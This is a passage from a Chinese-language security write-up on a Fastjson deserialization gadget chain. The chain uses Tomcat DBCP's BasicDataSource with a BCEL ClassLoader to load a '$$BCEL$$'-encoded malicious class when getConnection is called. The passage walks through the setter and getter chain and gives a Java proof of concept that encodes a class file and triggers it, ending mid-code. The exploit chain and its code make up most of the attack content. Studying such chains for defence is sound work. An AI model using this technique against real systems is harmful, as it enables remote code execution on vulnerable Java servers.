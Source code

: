 然后下面我们就需要考虑如何调用 loadClass 方法，在 tomcat 包下面找到了一个 BasicDataSource 的类，里面调用了 forName 方法，这里 forName 方法的底层逻辑其实调用了 loadClass 方法，所以如果我们让 dirverClassLoader 等于 ClassLoader，让 dirverClassName 等于我们自己的恶意类，就可以执行。

[![](assets/1701612260-dedd0e9cbb111ebd084201813745753b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230723230235-f50c7d76-2969-1.png)

然后恰好这两个变量还能够通过 setter 方法进行可控：

[![](assets/1701612260-c5aeb816210d877246f02163c169c2eb.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230723230241-f8f13cba-2969-1.png)

然后我们就来看最后能不能调用到某个 setter 方法或者 getter 中，看哪里能够调用 forName 方法对应的 createConnectionFactory 方法：

[![](assets/1701612260-0d65fb122761029e2230e726446d7dde.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230723230247-fc3b3fd8-2969-1.png)

再寻找 createDataSource 方法：

[![](assets/1701612260-424e7d6fa13c1618715926a745eb763f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230723230300-0412714a-296a-1.png)

最后我们就找到了 getConnetion 这个方法，所以单纯的调用流程就是下面这个样子，我们再把他转换为 JSON 的形式

```plain
package EXPFastJson;

import java.io.*;
import com.alibaba.fastjson.JSON;
import com.sun.org.apache.bcel.internal.classfile.Utility;
import com.sun.org.apache.bcel.internal.util.ClassLoader;
import org.apache.tomcat.dbcp.dbcp2.BasicDataSource;

public class FastJsonBcel {
    public static void main(String[] args) throws Exception{
        ClassLoader classLoader = new ClassLoader();
        byte[] bytes = convert("D:\\Tomcat\\CC\\target\\classes\\EXP\\Demo.class");
        String code = Utility.encode(bytes,true);
//        classLoader.loadClass("$$BCEL$$"+code).newInstance();


        BasicDataSource basicDataSource = new BasicDataSource();
        basicDataSource.setDriverClassLoader(classLoader);
        basicDataSource.setDriverClassName("$$BCEL$$"+code);
        basicDataSource.getConnection();
//        JSON.parseObject(s);
    }

    private static byte[] convert(String filePath) throws IOException {
        File file = new File(filePath);

        // 检查文件是否存在
        if (!file.exists()) {
            throw new FileNotFoundException("文件未找到：" + filePath);
        }

        // 将文件内容读取到字节数组中
        try (InputStream inputStream = new FileInputStream(file)) {
            ByteArrayOutputStream byteOutput = new ByteArrayOutputStream();
            byte[] buffer = new byte[4096];
            int bytesRead;

            while ((bytesRead = inputStream.read(buffer)) != -1) {
                byteOutput.write(buffer, 0, bytesRead);
            }

            return byteOutput.toByteArray();
        }
    }
```